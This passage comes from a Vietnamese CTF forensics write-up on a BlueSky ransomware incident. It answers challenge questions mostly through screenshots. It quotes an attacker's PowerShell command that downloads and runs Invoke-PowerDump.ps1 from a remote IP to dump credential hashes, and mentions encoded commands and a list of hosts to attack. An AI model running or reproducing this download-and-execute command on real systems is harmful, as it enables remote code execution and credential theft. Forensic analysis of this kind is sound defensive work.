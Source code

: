 * trong file ichigo-lite thì lại tải xuống tiếp file Invoke-PowerDump.ps1

`Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1')`

* Trong file này có những hàm lấy dữ liệu từ máy nạn nhân

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/b6d88634-ec40-48a0-b84f-48cbb241f2f5)

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/41f95494-15d0-436e-b847-b1f04862484f)

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/fdcea272-5aca-4476-810e-e1784606bb7b)

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/646a3d3a-b8f0-4a1b-83ad-7bb783549456)

# Q13:

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/b14734c5-c9e4-42a8-9ce8-5b8a94b78224)

* quay trở lại với file ichigo-lite thì sau khi tải xuống file đó thì sau khi tải xuống file PowerDump thì kẻ tấn công đã lưu file vào hashes.txt

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/e6b0d18c-2fad-49f9-9fd3-cff7a68d76fa)

* hai câu lệnh bị base64 encode

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/8167a785-8c19-4618-b883-6f49f36fa010)

# Q14: 

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/31727c06-8e2d-43ef-9a0a-bd9302733625)

* có một câu lệnh

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/3fc4b755-8857-4383-91fa-a867bafcaa37)

* có vẻ kẻ tấn công đã tải xuống một list các host có thể tấn công

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/3077b4ee-8e8a-4260-acce-3ee629b879b6)

# Q15:

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/97da03c8-9bb9-4de8-aa29-28c9fe17b52a)

* mình search thử bluesky ransomware thì mình đã đọc được tại một trang web https://www.sentinelone.com/blog/bluesky-ransomware-ad-lateral-movement-evasion-and-fast-encryption-puts-threat-on-the-radar/

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/48422404-f5eb-4037-a7ab-114284f61970)
